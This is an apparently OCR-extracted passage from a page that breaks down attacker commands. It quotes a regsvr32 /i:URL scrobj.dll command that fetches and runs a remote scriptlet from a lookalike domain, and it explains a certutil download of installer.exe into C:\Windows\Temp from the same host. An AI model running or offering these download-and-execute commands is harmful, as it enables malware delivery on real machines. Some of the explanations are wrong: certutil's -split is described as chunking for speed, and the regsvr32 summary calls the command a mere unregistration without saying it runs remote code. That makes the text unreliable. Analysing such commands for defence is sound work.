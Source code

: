 ```c
When you use `certutil -urlcache` to download a file from a URL, the downloaded file is stored in the local URL cache. Subsequent requests for the same URL will first check the cache. If the file is found in the cache and is still valid (not expired), it will be served from the cache instead of downloading it again from the remote server. This can improve performance and reduce network bandwidth usage, especially for frequently accessed files.

In summary, URL caching is a mechanism used to store downloaded files from URLs locally, allowing for quicker access to those files in the future and reducing the need to repeatedly download them from the remote server.


3. '-split': This option tells `certutil` to split the downloaded file into smaller chunks for improved performance during transfer.

4. '-f': This option forces `certutil` to overwrite any existing files with the same name during the download process.

5. 'http://www.oneedirve.xyz/321c3cf/installer.exe': This is the URL from which the file `installer.exe` will be downloaded.

6. 'C:\Windows\Temp\installer.exe': This is the destination path where the downloaded file `installer.exe` will be saved on the local system.

In summary, this command uses 'certutil' to download a file ('installer.exe') from the specified URL ('http://www.oneedirve.xyz/321c3cf/installer.exe') and save it to the local system at `C:\Windows\Temp\installer.exe`. The `-split` option ensures that the file is split into smaller chunks for efficient transfer, and the `-f` option forces the download to overwrite any existing files with the same name.
```


<u>Regsvr32 command</u>:
```c
regsvr32  /s /n /u /i:http://www.oneedirve.xyz/321c3cf/teams.sct scrobj.dll
```

```c
Breakdown:
1. 'regsvr32': This is a command-line utility in Windows used to register and unregister DLL files.

2. '/s': This option instructs `regsvr32` to run silently without displaying any dialog boxes or messages.

3. '/n': This option tells `regsvr32` not to call DllRegisterServer or DllUnregisterServer. This means that it''s not registering or unregistering the DLL, but instead it''s using it to perform some action.

4. '/u': This option specifies that the DLL file should be unregistered (i.e., its registration information should be removed from the system).

5. '/i:http://www.oneedirve.xyz/321c3cf/teams.sct': This option specifies an optional command-line parameter to be passed to the DLL during registration or unregistration. In this case, it''s a URL pointing to a script file (`teams.sct`) hosted on `http://www.oneedirve.xyz/321c3cf/`.

6. 'scrobj.dll': This is the name of the DLL file that `regsvr32` will register, unregister, or use with the provided command-line parameter.

In summary, this command is using `regsvr32` to unregister the `scrobj.dll` file from the system. Additionally, it''s passing a URL pointing to a script file (`teams.sct`) hosted on 'http://www.oneedirve.xyz/321c3cf/' as a command-line parameter to the DLL during the unregistration process.
```
